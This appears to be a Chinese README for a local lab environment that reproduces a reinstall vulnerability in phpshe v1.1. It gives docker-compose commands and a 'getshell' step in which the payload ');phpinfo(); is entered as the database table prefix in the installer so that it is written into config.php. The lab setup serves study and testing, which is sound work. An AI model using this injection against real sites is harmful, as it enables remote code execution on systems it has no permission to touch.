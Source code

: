 ## 启动环境

```
docker-compose build
docker-compose up -d
```

phpshe v1.1系统重装漏洞

## 0x01 getshell
直接访问http://127.0.0.1/install

在安装时，在数据表前缀写入：');phpinfo();
![](README/5C9E7C83-C177-411D-AAAA-3523AC17B55E.png)


看一下config.php

![](README/4D7D62E2-B41D-489C-97FB-A04DFF70C545.png)

![](README/495F968C-5003-488D-9B8C-47C4B5557C35.png)


